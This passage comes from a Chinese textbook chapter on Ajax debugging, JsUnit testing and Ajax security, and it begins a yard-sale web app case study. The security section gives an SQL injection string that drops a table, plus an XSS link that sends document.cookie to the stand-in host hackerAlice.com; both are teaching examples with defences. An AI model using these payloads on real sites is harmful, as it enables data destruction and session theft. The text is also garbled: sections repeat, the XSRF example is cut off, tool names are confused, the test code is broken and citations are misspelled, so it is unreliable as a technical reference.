9. 使用 Dojo 工具包创建一个自定义表单。
10. 使用 Dojo 工具包创建一个自定义应用程序。

## 6.7 参考文献

297

# 第 7 章 Ajax 挑战与实践

1. `<script type="text/JavaScript" src="./log4JavaScript-1.3.1/log4JavaScript.js"></script>`
2. `<script type="text/JavaScript">`
3. `var logger = log4JavaScript.getLogger();`
4. `var logDisplay = new log4JavaScript.PopupAppender();`
5. `logger.addender(logDisplay);`
6. `var ajaxServerLogger = new log4JavaScript.AjaxAppender('server_side');`
7. `logger.addender(ajaxServerLogger);`
8. `logger.debug('Hello world!');`
9. `</script>`

### 列表 7.2.1 语句

尽管 JavaScript 提供了跟踪客户端情况的方便方法，但调试器通常提供许多强大的工具，例如断点、单步执行、运行时变量检查以及调用栈显示。许多 JavaScript 调试工具是可用的，例如 Firefox 调试器（Mozilla）和 Microsoft 调试器（Microsoft）。两者都提供了客户端的 JavaScript 调试。Microsoft 调试器还允许对服务器端的 ASP.NET 脚本进行调试，并且可以通过在代码中包含语句来触发调试器的执行。7.2.1 显示了 Microsoft 调试器的一种场景：使用断点调试 JavaScript 代码段是多么简单。此示例的完整源代码可以在本书的以下文件夹找到：`/7/CodeExamples/`。要运行此示例，必须在 Internet Explorer 中安装 Microsoft 调试器。安装过程取决于操作系统和浏览器的版本。然而，安装过程是简单的。

## 7.2 Web 应用诊断


图 7.2.1 使用 Microsoft 调试器的示例

Explorer 窗口并将鼠标悬停在链接上；命中断点。然后可以使用窗口查看变量值和调用栈。

Microsoft 调试器提供了另一个有用的断点功能，称为“停止语句”。它允许在处理特定事件时无需查看网页源代码进行调试。Microsoft 调试器提供的步进功能允许你逐步执行控制流。Firefox 调试器提供了类似的功能。

### 7.2.3 调试中的异步调用挑战

Ajax 应用调试与其他 Web 应用调试的不同之处在于，Ajax 可以通过`XMLHttpRequest`异步地向服务器发送请求。这一概念引发了对拦截客户端与服务器交换数据的兴趣，以分析客户端脚本的正确性。

正如 Mahemhoff（2006）指出的，跟踪`XMLHttpRequest`传递的数据通常有三种方法：

1. 使用代理拦截客户端与服务器之间的数据。
2. 使用网络嗅探器捕获流量。
3. 使用像 Ether（Ethereal）这样的专用工具。

方法 1 通常是最有效的，因为它允许对有效负载进行详细检查。方法 2 适用于观察网络层行为。方法 3 通常用于调试协议本身的复杂计时问题。

## 7.2.4 性能分析

诊断 Ajax 应用的另一个部分是性能分析。许多因素会影响性能，例如网络延迟、服务器处理时间和客户端执行。性能分析通常有两种方法：

- 使用基于浏览器的性能分析工具测量 JavaScript 函数的执行时间。
- 使用服务器端性能分析工具监控处理 Ajax 请求的时间。

## 7.3 Web 应用测试


图 7.2.1 使用 Microsoft 调试器的示例

与用于排除已知故障的调试不同，软件测试的目标是发现未知问题。通常，软件测试不仅要评估逻辑正确性，还要评估安全性、健壮性和许多其他属性。Ajax 的诞生带来了若干挑战：

- 测试人员如何确保 Ajax 应用的逻辑正确性？
- 测试人员如何在复杂环境中测试 Ajax 应用？
- 测试人员如何处理多个异步调用？并发通常是难以复现的棘手问题的核心原因。

本节介绍了用于应对上述挑战的技术和工具。通常，你将遵循软件工程周期中的最佳实践，测试活动可以分为以下几类：

- **单元测试**：涉及单元和模块的测试与评估。
- **集成测试**：可以在不同组件集成时暴露问题。
- **系统测试**：评估整个系统是否满足非功能需求。

### 7.3.1 单元测试

单元是指程序中最小的可测试部分。例如，在结构化程序中，单元可以是一个函数或过程。在面向对象的编程中，单元可以是类或类的方法。从下到上测试单元有很多好处。

首先，它有助于更好地理解单元的定义。每个单元的单元测试设计通常是文档的重要部分。其次，它允许更好地组织程序。当所有单元被明确定义并实现后，当软件需求变化时可以很容易重新组织。最重要的是，单元测试可以大大降低软件开发的成本。越早发现 Bug，成本越低。

单元测试可以很容易自动化，因为单元的函数和后置条件通常可以被良好定义。在自动化单元测试中，测试用例使用测试脚本表示，然后根据需要多次执行该脚本。显然，自动化单元测试可以显著减少回归测试的成本，而回归测试在系统部分被修改时经常进行。

## 7.3 测试 Ajax Web

`(Hieatt, 2001)`可用于 JavaScript 的单元测试，而`JSCoverage`（`siliconforks.com`，2007）是一种评估和报告测试语句覆盖率的分析工具。

接下来，你将通过一个简单的示例使用 JUnit。JUnit 遵循了 JUnit 中单元测试的设计思想，例如测试用例和测试套件。JUnit 有一个测试运行器程序（test runner），用于执行测试用例并显示结果。

JUnit 中的单元是一个 JavaScript 函数。一个单元的测试套件是测试函数的集合。所有函数应该包含在一个包含名为`jsUnitTest.js` JavaScript 文件的 HTML 页面中。该文件随 JUnit 框架提供，定义了提供框架的所有辅助函数。为了设置和清理测试，JUnit 提供了两个函数：`setup()`和`teardown()`。`setup()`在执行测试函数时被调用，而`teardown()`可以包含测试函数完成后需要执行的操作。JUnit TestRunner 页面可运行测试用例。

现在，你将使用 JUnit 框架测试一个名为`sort()`的简单 JavaScript 函数。`sort()`的源代码如列表 7.3.1 所示。它是冒泡排序算法的一种实现。给定一个 HTML select 控件（下拉列表）的名称，`sort()`函数将按字母顺序重新排列 select 控件的内容。列表 7.3.1 中的当前实现存在 bug。

```javascript
function sort(ctrl) {
  var sel = document.getElementById(ctrl);

  for (var i = 0; i < sel.length; i++) {
    {
      for (var j = 0; j < sel.length - 1 - i; j++) {
        if (sel.options[j].text > sel.options[j + 1].text) {
          var text = sel.options[j].text;
          var value = sel.options[j].value;

          sel.options[j].text = sel.options[j + 1].text;
          sel.options[j].value = sel.options[j + 1].value;
          sel.options[j + 1].text = text;
          sel.options[j + 1].value = value;
        }
      }
    }
  }
}
```


## 列表 7.3.1：JavaScript `sort()` 函数

你的单元测试的第一步是设计一个包含两个测试用例的测试页面。测试页面的源代码如列表 7.3.2 所示。

1. `testText`。第一个测试用例验证在`sort()`完成后，HTML Select 控件中的所有项都应该按字母升序排列。
2. `testRobustness`。第二个测试用例验证`sort()`能够处理输入参数（HTML select 控件）不存在的情况。

如列表 7.3.2 所示，HTML 页面的主体包含两个 select 控件和几个 JavaScript 函数。`setup()`函数初始化第一个 select 控件的两个选项，并留第二个控件为空。`teardown()`函数清除第一个 select 控件的内容。这两个函数分别由 JUnit 框架在执行测试函数之前和之后调用。

有两个测试函数：`testText()`和`testRobust()`。这两个函数都使用一个名为`testIndexOf(controlName)`的辅助函数，该函数验证名为 name 的 HTML 控件中的所有项都按字母顺序排列。在文件开头，包含了几个 JavaScript 文件。第一个是`junitCore.js`，第二个是`bubbleSort.js`，它包含了要测试的`sort()`函数。

启动浏览器并打开名为`TestRunner.html`的文件。`TestRunner.html`文件随 JUnit 框架提供。使用该文件，你可以指定并加载 HTML 测试用例文件。点击 Run 按钮，测试用例文件中包含的所有测试函数都将被执行。将显示每个测试用例的测试结果详情（如图 7.3.1 所示）。测试人员可以选择不同的跟踪级别。可以提供详细的跟踪信息以替代使用 JavaScript 调试器。

如图 7.3.1 所示，列表 7.3.1 中`sort()`函数的当前实现未能通过第二个测试函数。它无法处理给定 HTML select 控件的异常。实际上，该实现还有更多 bug。为`sort()`设计更多测试用例留给你你完成。

要重复 JUnit 的简单实验，你可以在`/Ch7/CodeExamples/JUnitExperiment/`文件夹中找到所有相关文件。首先，进入子文件夹`junit2.alpha11/junit`并打开名为`testRunner.html`的文件。然后访问该网站。然后它在文本框中输入一个字符串并等待 2 秒。接着，它验证生成的页面（在 XHR 请求之后）是否在其提示列表中包含“测试驱动开发”。

```html
<!DOCTYPE html>
<html>
<head>
<title>JsUnit Tests</title>
<link rel="stylesheet" type="text/css" href="../css/jsUnitStyle.css">
<script language="JavaScript" src="../jsUnitCore.js"></script>
<script language="JavaScript" src="../bubbleSort.js"></script>
<script language="JavaScript" type="text/javascript"></script>

function setUp(){

  //1. sel 1：有两个选项

  var sel = document.getElementById('sel');

  var opt1 = document.createElement('OPTION');

  opt1.value = 2;

  opt1.text = 'opt1';

  var opt2 = document.createElement('OPTION');

  opt2.value = 3;

  opt2.text = 'opt2';

  sel.options.add(opt1);

  sel.options.add(opt2);

  //2. sel2 没有任何选项

}

function tearDown(){

  var sel = document.getElementById('sel');

  sel.options.length=0;

}

function textFieldOf(name) {

  var sel = document.getElementById(name);

  if(sel==null) return;

  for(i=0; i<=sel.length-1;i++){

    if(sel.options[i].text != sel.options[i+1].text){

      fail('sorting error at element " + i);

    }

  }

}

function testText(){

  textFieldOf('sel1');

  textFieldOf('sel2');

}

function testRobust(){

  textFieldOf('controlNotExist');

}

</script>
</head>
<body>

<p>此页面包含对冒泡排序函数的测试。</p>

<form>

<select id="sel" onmouseover="sort('sel')">

<option value="1">opt3</option>

<option value="2">opt1</option>

</select>

<select id="sel2" onmouseover="testText()"></select>

</form>

</body>
</html>
```

目前有 Mitar 的扩展以及许多类似的工具用于测试 Web 应用程序。例如，如果测试人员希望使用 C# 语言来利用其扩展的库支持和更强大的语言特性，可以使用一个名为 WatIn（van Menen, 2005）的包。例如，HtmlUnit（Bowler, n.d.）模拟了浏览器并直接操作网页文档的 DOM 树。浏览器模拟器的缺点是与浏览器和 W3C 标准存在兼容性问题。

## 7.4 Ajax 安全

自 20 世纪 90 年代以来，一直是一直是应用程序开发者关注的问题。作为 Web 应用程序的一种，Ajax 应用可能会受到传统 Web 应用程序漏洞的影响。Ajax 开发者也面临新的挑战。本节将向你介绍 Ajax 应用可能的一些典型安全问题。

### 7.4.1 SQL 注入攻击

SQL 注入攻击可能是 Web 应用程序最常用的攻击之一。SQL 注入的基本原理是利用 Web 应用程序脆弱的输入验证。当攻击者精心构造时，一段 SQL 代码片段可以嵌入到服务器端动态构建的 SQL 语句中。此类片段可用于实现恶意目标，例如绕过密码检查和破坏后端数据库。

考虑一个检查用户购物篮的简单 Ajax 应用。假设有一个文本框允许用户输入产品名称。在客户端，每当发生键盘事件时，文本框中的短语就会提交到服务器。在服务器端，使用 servlet 根据 XHR 调用提交的部分短语来搜索完整的产品名称。为了实现自动补全功能，服务器端脚本动态生成 SQL 语句。构建 SQL 语句的语句如列表 7.4.1 所示。

如列表 7.4.1 所示，该语句本质上是通过拼接字符串来形成一个 SELECT 语句。如果产品名称包含`txtPartial-Name`中的字符串作为子字符串，则 SELECT 语句将检索该产品的信息。例如，如果`txtPartialName`的值为`ipod`，则构建的 SQL 语句所示。

```sql
SELECT prod_id, prod_name, prod_price FROM products
WHERE prod_name is like 'ipod'
```

如果`txtPartialName`的值没有经过服务器的仔细检查和验证，攻击者可能利用字符串拼接操作。例如，如果用户在文本框中输入以下内容，后端数据库可能会被破坏。

```sql
ipod' OR 1=1; drop table products --
```

当上述字符串出现时，将动态构建以下 SQL 语句。在 WHERE 子句中，`l=1`使其成为恒真式，然后`drop table products`破坏指定的 products 表，最后`--`注释掉单引号，使整个语句在 SQL 语法上保持正确。

```sql
SELECT prod_id, prod_name, prod_price FROM products
WHERE prod_name is 'ipod' OR 1=1; drop table products --
```

Anley (2002) 对 SQL 注入攻击及其变体进行了彻底检查。在实践中，许多 SQL 注入攻击可以通过加强用户输入验证来阻止。例如，在生成 SQL 语句时，可以过滤掉如 DROP 和`--`等 SQL 关键字。限制用户输入的长度也是有效的。如果 SQL 语句的结构不复杂，程序员应该避免通过字符串拼接动态构建 SQL 语句。许多平台如 .Net 和 JDBC 提供了一种将动态值作为 SQL 参数传递的机制。研究人员还提出了许多有趣的防御方法，例如，通过字符串分析和 Web 应用程序插桩检测并阻止 SQL 注入攻击（Halfond and Orso, 2005）、污染数据追踪（Nguyen-Tuong, Guarnieri, Shirley, and Evans, 2005）以及 SQL 关键字随机化（Boyd and Keromytis, 2004）。

### 7.4.2 跨站脚本和跨站请求伪造攻击

跨站脚本（XSS）攻击是 Web 应用程序另一种典型的代码注入形式。它利用用户对网站的信任，可用于窃取用户 cookie。XSS 攻击有很多变体。

#### 示例 1

假设 GardenMail.com 是一个 Web 电子邮件系统。它使用 cookie 在用户登录后维护会话状态在本示例中，受害者 Venice 和攻击者 Alice 都是 GardenMail.com 的用户。

GardenMail 提供了一种类似的网邮箱系统中没有的虚拟花服务。该服务允许用户在邮件中嵌入花卉图片。为此，在 GardenMail.com 的编写页面上有一个搜索框，允许用户通过输入名称或预期用途搜索花朵。一旦点击搜索按钮，请求将通过 XHR 发送到服务器。服务器将返回一段 HTML 代码段，并嵌入邮件正文中。例如，如果用户尝试搜索适合作为生日礼物的花，服务器端脚本将动态生成 SQL 语句。构建 SQL 语句的语句如列表 7.4.1 所示。

```sql
sqlStr="SELECT prod_id, prod_name, prod_price FROM products\n
+ "WHERE prod_name is like " + txtPartialName + ";

SqlStatement sqlStmt = dbConnection.createStatement();

ResultSet rs = sqlStmt.executeQuery(sqlStr);
```

#### 7.4.1 有漏洞的 SQL 语句

如列表 7.4.1 所示，该语句本质上通过拼接字符串形成一个 SELECT 语句。如果产品名称包含`txtPartial-Name`中的字符串作为子字符串，则 SELECT 语句将检索该产品的信息。例如，如果`txtPartialName`的值为`ipod`，构建的 SQL 语句所示。

```sql
SELECT prod_id, prod_name, prod_price FROM products
WHERE prod_name is like 'ipod'
```

如果`txtPartialName`的值没有经过服务器的仔细检查和验证，攻击者可能利用字符串拼接操作。例如，如果用户在文本框中输入以下内容，后端数据库可能会被破坏。

```sql
ipod' OR 1=1; drop table products --
```

当上述字符串出现时，将动态构建以下 SQL 语句。在 WHERE 子句中，`l=1`使其成为恒真式，然后`drop table products`破坏指定的 products 表，最后`--`注释掉单引号，使整个语句在 SQL 语法上保持正确。

```sql
SELECT prod_id, prod_name, prod_price FROM products
WHERE prod_name is 'ipod' OR 1=1; drop table products --
```


Anley (2002) 对 SQL 注入攻击及其变体进行了彻底检查。在实践中，许多 SQL 注入攻击可以通过加强用户输入验证来阻止。例如，在生成 SQL 语句时，可以过滤掉如 `DROP` 和 `--` 等 SQL 关键字。限制用户输入的长度也是有效的。如果 SQL 语句的结构不复杂，程序员应该避免通过字符串拼接动态构建 SQL 语句。许多平台如 `.Net` 和 `JDBC` 提供了一种将动态值作为 SQL 参数传递的机制。研究人员还提出了许多有趣的防御方法，例如，通过字符串分析和 Web 应用程序插桩检测并阻止 SQL 注入攻击（Halfond and Orso, 2005）、污染数据追踪（Nguyen-Tuong, Guarnieri, Shirley, and Evans, 2005）以及 SQL 关键字随机化（Boyd and Keromytis, 2004）。

为了防御 XSS 攻击，在 `GardenMail.com` 的服务器端，每封邮件必须经过检查。为了防止 XSS，服务器应该从用户提供的内容删除任何 HTML 标签。例如，如果用户尝试搜索适合作为生日礼物的花，服务器将返回一段 HTML 代码段，并嵌入邮件正文中。例如，如果用户尝试搜索适合作为生日礼物的花，服务器端脚本将动态生成 SQL 语句。构建 SQL 语句的语句如列表 7.4.1 所示。

| 列表 7.4.2 | XSS 生成的恶意 HTML 代码段 |
| :--- | :--- |
| | `<a target="_new" href="gardenmail.com/getFlower?q=birthday" onclick="<script>document.location='hackerAlice.com/getCookie.jsp?c='+document.cookie</script>">点击看花！</a>` |

一旦 Venice 点击链接，她的当前 cookie 将被设置为位于 Alice 网站上的 `getCookie.jsp`。Alice 可以利用该 cookie 登录 Venice 的账号。

一旦 Venice 尝试查看文章时，当她的浏览器渲染图像时，图片的 `src` 属性将立即被执行。`Superstockbroker` 信任用户，因为用户需要登录才能查看文章，且 cookie 编号仍然有效。因此，请求被执行，Venice 被诱骗在没有收到警告的情况下购买了 1000 股股票。

为了防御 XSS 和 XSRF 攻击，需要加强验证。常见的方法包括禁止用户发布 JavaScript 代码。要求通过 `POST` 而不是 `GET` 提交数据也会增加攻击难度，因为无法通过简单地在 URL 后面附加参数值来构造请求。防御 XSRF 的另一种有效方法是在会话开始时关联一个随机会话 ID（注意：不是 cookie）。将会话 ID 分配给客户端侧的一个隐藏 HTML 控件，然后让客户端在随后的每个操作中提交相同的会话 ID 以发布数据。这种方法可以防御基于纯 cookie 的信任利用漏洞。

## 7.4.3 Ajax 安全总结

使用 Ajax 是否会降低 Web 应用程序的安全性？增加 Ajax 应用安全性的最佳实践是什么？关于这些问题有许多争论，例如 Grossman (2006) 的观点。

关于 Ajax 安全性的常见观点是，使用 Ajax 增加了应用程序的攻击面。攻击面是指系统中易受攻击的开放、可访问部分。因为带有 Ajax 能力可能需要一个或多个服务器访问点来处理异步请求，Ajax Web 应用具有更复杂的客户端-服务器交互和潜在更大的攻击面。由于客户端 JavaScript 被用于提交 Ajax 请求，攻击者可以通过分析嵌入在 HTML 中的 JavaScript 代码段来获取服务器端访问点的签名。此外，与传统 Web 应用程序采用的请求-响应模式相比，客户端与 Ajax 应用之间的交互对用户是隐藏的。除非使用嗅探器监控网络流量，否则对 Ajax 应用的攻击可以在客户端不察觉的情况下进行。Ajax 可能会为任何现有攻击方法打开门。你可以在 Stamos 和 Lackey (2006) 的文章找到更多信息，该文章讨论了针对 Ajax 应用的各种攻击。

## 7.5 总结

本节讨论了 Ajax 开发者面临的各种挑战，例如诊断和测试 Ajax 应用的挑战，以及安全问题。幸运的是，许多先进的诊断工具正在出现。它们可以帮助 Ajax 开发者排查故障和分析 Ajax 应用。然而，所有问题并没有简单的治疗方法。识别合适的工具并有效使用它们来应对挑战是你的责任。

## 7.6 自测习题

- 1. `Log4JavaScript` 允许记录客户端操作并将日志发送到服务器。此功能依赖于异步调的使用。
  a. 正确
  b. 错误
- 2. `Log4JavaScript` 允许开发者在 JavaScript 函数中设置断点。
  a. 正确
  b. 错误
- 3. `Firebug` 是一个 JavaScript 单元测试工具。
  a. 正确
  b. 错误
- 4. 使用 `JSUnit` 进行单元测试时，你必须编写测试函数。`JUnit` 无法自动为你生成测试函数。
  a. 正确
  b. 错误
- 5. `Watir` 不能用于测试嵌入网页中的 Flash 对象或 Java Applet。
  a. 正确
  b. 错误
- 6. `Watir` 只能访问 HTML 文件中静态指定的 HTML 控件。`Watir` 无法操作 JavaScript 在运行时动态创建的 HTML 元素。
  a. 正确
  b. 错误
- 7. SQL 注入可能导致以下损害。
  a. 恶意登录绕过密码检查
  b. 删除数据表
  c. 在操作系统中执行任意命令
  d. 以上所有
- 8. XSS 攻击利用了网站对用户的信任。
  a. 正确
  b. 错误

## 自测习题答案

1. a 2. b 3. b 4. a 5. a 6. b 7. d 8. b

## 7.7 练习题

- 1. 编写 Java Servlets 时，考虑一种使用离线 HTML 验证器的系统化方法。
- 2. 为服务器端脚本的单元测试考虑一种系统的方法。你的方法必须与平台无关。例如，它应该能够处理 Java Servlets 也能处理 ASP.Net 页面。
- 3. 列出 `Watir` 包及其衍生品之外的三个 Web 应用程序测试工具。对比这些工具。
- 4. 解释为什么使用 `POST` 方法可以增加执行 XSRF 攻击的难度。并解释为什么它不能完全防御 XSRF 攻击。
- 5. 寻找 SQL 注入、XSS 和 XSRF 攻击之外的 Ajax 其他漏洞。列出可能的反击措施。

## 7.8 设计题

- 1. 从列表 7.2.1 开始，设计一个服务器端日志器，以便通过 `Log4JavaScript` 远程接收日志（列表 7.2.1 的第 6 行）。
- 2. 为列表 7.3.2 提供两个测试函数，并找出列表 7.3.1 中 `sort()` 函数的潜在 bug。修复 bug 并使用 `JUnit` 重新运行测试。
- 3. 使用 `Firebug` 分析访问 Google Maps 服务时网络连接的延迟。
- 4. 编写基于 `Watir` 的 Ruby 脚本，给定书籍的 ISBN，从 `Amazon.com` 等在线书店提取并返回书的价格。

## 7.9 参考文献

Angle, C. 2002. SQL Injection In Next Generation Security White Paper, 2002.
Bowler, M. (n.d.). HtmlUnit. Available at http://htmlunit.sourceforge.net/index.html.
Boyd, S. and Kerwin, A. 2004. Preventing SQL injection. In Applied Cryptography and Network Security Conference, volume 308 of Lecture Notes in Computer Science, pages 292–304.
Couvre, J. (n.d.). Ajax Debugging with Greasemonkey. Available http://blog.monsterstuff.com/archives/0025.html (accessed December 1, 2007).
Cross Browser (n.d.). The Library. Available at http://www.cross-browser.com/x/docs/quickstart.php (accessed December 1, 2007).
Dahm, T. (n.d.). Browser Tutorial. Available at http://www.netmechanic.com/products/Browser-Tutorial.html (accessed December 1, 2007).
Dewitt, J. 2006. JMock. Available at http://jsmock.sourceforge.net/ (accessed December 1, 2007).
Dojo Foundation (n.d.). Dojo toolkit. Available at http://dooolkit.org (accessed December 1, 2007).
Down, T. (n.d.). log4JavaScript framework. Available at http://www.timdown.co.uk/log4JavaScript/ (accessed December 1, 2007).
Grossman, J. 2006. Myth-Busting Ajax insecurity. WhiteHat Security Publication. Available at http://www.whitehatsec.com/home/resources/articles/myth_insecurity.html (accessed December 1, 2007).
Halfond, W. and Orso, A. 2005. AMNESIA: Analysis and Monitoring for SQL-Injection Attacks. In Proceedings of the 20th IEEE/ACM international Conference on Automated Software Engineering, pages 174–185.
Hewitt, J. (n.d.). Firebug. Available at https://addons.mozilla.org/addon/1843 (accessed December 1, 2007).
Hieatt, E. 2001. JUnit. Available at http://www.jsunit.net/.
Hildebrand, J. Automatic HTML Validation. Available at http://wiki.w4py.org/automatic-html-validation.
IEEE Standards Board. 1986. IEEE Standard for Software Unit Testing, Approved December 11, 1986, and reaffirmed December 2, 1993.
JUnit.org. (n.d.). JUnit framework. Available at http://www.junit.org/index.html (accessed December 1, 2007).
Keynote NetMechanic. (n.d.). Browser Compatibility Testing with Browser Photo. Available at http://www.netmechanic.com/products/browser-index.shtml?from=gb (accessed December 1, 2007).
Koch, P.P. (n.d.). W3C DOM Compatibility Tables. Available at http://www.quirksmode.org/dom/compatibility.html (accessed December 1, 2007).
Maheff, M. 2006, Ajax Design Patterns, ISBN-13: 978-0596101800, O'Reilly Media, 2006.
Matsumoto, Y. 1993. Ruby Programming Language. Available at http://www.ruby-lang.org/en/.
Microsoft. (n.d.). Microsoft JavaScript Debugger. Available at http://msn.microsoft.com/library/default.asp?library=en-us/sdb/Html/sdebug_1.asp (accessed December 1, 2007).
Mozilla.org. (n.d.). Venman JavaScript Debugger. Available at http://www.mozilla.org/projects/venkman/ (accessed December 1, 2007).

## 7.9 参考文献

Nguyen-Tuong, A., Guarnieri, S., Greene, Shirley, J., and Evans, D. 2005. 使用精确污点自动加固 Web应用程序。Proceedings of the 203rd IFIP International Information Security Conference, 2005.

NUnit.org. (n.d.). NUnit 框架. 访问地址 http://www.nunit.org/ (访问时间：2007年12月1日)。

Pettichord B., Rogers, P., et al. (n.d.). Ruby 中的 Web 应用测试. 访问地址 http://wtr.rubyforge.org/ (访问时间：2007年12月1日)。

siliconforks.com. 2007. JavaScript. 访问地址 http://siliconforms.com/jscoverage/ (访问时间：2007年12月1日)。

Stamos, A. and Lackey, J. 2006. 攻击 Ajax Web 应用程序。Black Hat USA 2006. 2006年8月3日。

The Frontside, Inc. (n.d.). CrossCheck. 访问地址 http://thefrontside.net/crosscheck (访问时间：2007年12月1日)。

van Menen, J 2005. WatiN (Web Testing .Net). 访问地址 http://watin.sourceforge.net/ (访问时间：2007年12月1日)。

W3C. 2007. XMLHttpRequest 对象 W3C 工作草案. 访问地址 http://www.w3.org/TR/XMLHttpRequest/, 2007年2月。

W3C. (n.d.). W3C 标记验证服务. 访问地址 http://validator.w3.org/ (访问时间：2007年12月1日)。

Web Design Group (WDG). (n.d.). 离线 WDG HTML 验证器. 访问地址 http://htmlhelp.com/tools/validator/index.html.en (访问时间：2007年12月1日)。

Web Design Group (WDG). (n.d.b). 在线 WDG HTML 验证器. 访问地址 http://htmlhelp.com/tools/validator/ (访问时间：2007年12月1日)。

Wikipedia. XMLHttpRequest 对象. 访问地址 http://en.wikipedia.org/wiki/XMLHttpRequest#node_Dutta (访问时间：2007年12月1日)。

www.ethereal.com. (n.d.). Ethereal，一种网络协议分析器. 访问地址 http://www.ethereal.com/ (访问时间：2007年12月1日)。

# 第8章

## Ajax 案例研究

**章节目标**

- 在一个综合项目中集成各种服务器/客户端技术
- 体验回调技术和异步编程
- 实践 Web 应用程序的组件化设计
- 开发根据需求做出设计决策的能力

## 8.1 引言

本章将向你介绍许多用于实现强大且用户友好的 Ajax Web 应用程序的服务器/客户端技术。Ajax 特性提供了丰富的用户体验。通过 Ajax，用户与 Web 应用程序之间的交互将不再限于简单的“请求-响应”模型。

通过对本章复杂的案例研究项目进行实际操作，你将有机会练习 Ajax 的许多技术方面。例如，可以使用许多方法进行远程异步调用：原始 `XMLHttpRequest` (XHR) 调用和 XHR 封装器（例如由 Dojo 和 Google Maps 提供的）可以转换为许多不同的形式，例如纯文本、HTML 片段和 JSON。你将获得许多可选的技术方案，并在设计过程中做出决策。

尽管 Ajax 技术的应用是本章的主要关注，但传统的 Web 应用技术必须与新的 Ajax 技术无缝集成。在本章中，你将学习如何使用 SQL（结构化查询语言）建立后台数据库，并使用 JDBC（Java 数据库连接）检索数据。按照 Ajax 的，服务器端技术对于生成动态内容是必要的。你将接触到几种著名的服务器端技术，如 Java Server Page (JSP) 和 Java Servlet (servlets)。在服务器端，你将使用 Java 动态生成 HTML 代码，这些代码将在用户的浏览器中进行渲染。组件化编程已作为一种范式出现。在基于 ASP.Net 和基于 Java 的 Web 应用程序开发平台上，基于控件的技术非常流行。通过在 Web 页面中嵌入服务器端控件，服务器运行环境（例如 ASP.Net 和 JavaEE）可以自动维护状态并为服务器控件生成 HTML 代码。服务器控件技术可以极大提高代码复用并提高开发者的效率。你还将接触该领域的最新进展，例如 Java Faces (JSF)。表 8.1.1 总结了你将在本章中遇到的各种技术。

> http://www.asp.net.

> http://java.sun.com/javaee.

## 8.2 案例研究：BigPeachYardsSaleExpress

### 表 8.1.1 第8章技术概述

| 远程异步调用 | Ajax 应用 | 数据传输 | 各种技术 |
| :--- | :--- | :--- | :--- |
| 原始 XHR | | 纯文本 | CSS |
| XHR 封装器 (Dojo) | 文本输入提示 | HTML | Dojo 动画 |
| 隐藏 XHR 调用（例如 Google Maps） | Google Maps | JSON | Dojo 拖放 |
| | 行驶路线规划 | 混合 | 数据库应用程序 |
| | 广告横幅 | | JSP/Servlet |
| | | | JavaServer Faces (JSF) |

我们选择 Java 平台来实现案例研究项目，是因为有许多开源工具。在整个章节中，你将使用以下工具：

- NetBeans
- Sun Java System（代名 GlassFish）
- Apache JavaDB（包含在 NetBeans 中）

NetBeans 版本至少为 6.0。可以从 http://www.netbeans.org 下载。建议下载完整的 NetBeans 版本，包含了 GlassFish 和 JavaDB。为了顺畅运行 NetBeans，你需要至少 1 GB 的内存。

为了方便你的学习，案例研究项目的源代码可以在此处下载。该项目有多个里程碑。你可以从书的任何章节继续案例研究项目的开发。

## 8.2 案例研究：BigPeachYardsSaleExpress

Big Peach 是一个拥有 1000 万人口的大都会区。每天都有数百人在庭院市场移动并出售物品。一群跳蚤市场爱好者决定建立一个网站，帮助活动组织者发布信息。

该网站将帮助买家更好地规划购物行程。设计师决定在他们的网站 `BigPeachSaleExpress.com` 中整合以下功能：

- 卖家可以发布庭院市场的信息（例如地点和日期）。
- 卖家可以发布物品的名称、价格和缩略图。
- 买家可以根据日期和距离家庭的距离搜索庭院市场。
- 买家可以在地图上视觉识别庭院市场，浏览出售物品并锁定/购买。
- 根据买家购物车中的物品集合，可以自动生成一份行程（带有行驶路线）。买家可以通过拖放物品来定制行程。
- `BigPeachSaleExpress` 将依赖广告收入。每个页面将放置一个动态广告横幅。横幅的内容将定期更新（每 2 秒一次）。系统应允许动态包含新的横幅内容。

## 8.3 高级设计

Ajax 的强大之处在于其开放标准的集合以及许多可用的开源开发工具。对于动态广告横幅的动画需求，使用 Dojo 动画包就足够了。

在 `BigPeachYardSaleExpress` 的需求中，下一步是完成其高级设计。通常情况下，Web 应用程序的高级设计由两个部分组成：(1) 设计图形用户界面 (GUI) 和 (2) 设计数据库模式。这两个部分将在接下来的两个节中介绍。

### 8.3.1 GUI 设计

图 8.3.1 显示了你将实现的网站的总体架构。网站的第一页是一个静态页面，用于重定向买家和卖家。`Seller.jsp` 为卖家提供服务，`PostItem.jsp` 用于上传出售物品的信息。`Buyer.jsp` 为买家提供服务。正如你稍将看到的，此页面将主要使用客户端技术实现，以最大化地提供丰富的用户体验。名为 `MapIDE.html` 的静态网页用于显示 Google 地图。该页面允许动态显示销售活动信息。下面将检查图 8.3.1 中每个页的功能。

### 8.3.1.1 门户页

`Page1.jsp` 是门户页。如图 8.3.2 所示，它由两部分组成：动态页头和主体。页头是一个动态广告横幅。每隔 2 秒，横幅将从服务器下载内容。横幅可以在静态图片上显示动画效果，例如滑入和滑出。


图 8.3.1
`BigPeachYardSaleExpress` 的
总体架构



图 8.3.2 门户页



图 8.3.3 卖家页

